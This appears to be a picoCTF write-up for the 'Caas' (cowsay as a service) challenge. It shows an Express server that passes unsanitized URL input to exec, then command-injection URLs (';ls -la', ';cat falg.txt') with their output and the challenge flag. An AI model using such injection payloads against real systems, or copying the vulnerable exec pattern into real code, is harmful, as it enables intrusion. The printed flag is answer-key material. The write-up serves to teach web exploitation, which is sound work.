 # Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough


# Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough

If we visit the [link provided](https://caas.mars.picoctf.net/ "CTF challenge link") we'll see a website that allows us to print a message in cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay").

> Cowsay as a Service
>
> Make a request to the following URL to cowsay your message:
>
> https://caas.mars.picoctf.net/cowsay/{message}

[Cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay") is a program that generates ASCII art based on a custom message provided by the user. By default, the message appears above a cows head, like so:

```
 ______________________________
< This is an example of Cowsay >
 ------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

In Linux we can use Cowsay with the command ```cowsay <MESSAGE>```.

Given the above information, we can assume that the website provided for this challenge is using any message we provide as an argument to the ```cowsay``` command. We can verify this by viewing the contents of the [script provided in the challenge description](./index.js "CTF challenge script").

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Here, we can see that our message gets passed to the cowsay command and is executed by JavaScripts ```exec``` function, but it is not sanitized in anyway. Meaning we can potentially exploit this vulnerability.

```javascript
exec(`/usr/games/cowsay ${req.params.message}
```

We can verify this by writing the message "hi" followed by the Linux command seperator ```;``` and a command such as ```ls -la``` to list all contents in the current directory.

```
https://caas.mars.picoctf.net/cowsay/hi;ls%20-la

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 52
drwxr-xr-x  1 root root  4096 Jun 16  2021 .
drwxr-xr-x  1 root root  4096 Jul 14 15:19 ..
-rw-r--r--  1 root root    14 May  5  2021 .dockerignore
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock
```

One of the files listed above stands out, ```falg.txt```, if we ```cat``` this file we'll find our flag.

```
https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

```picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}```
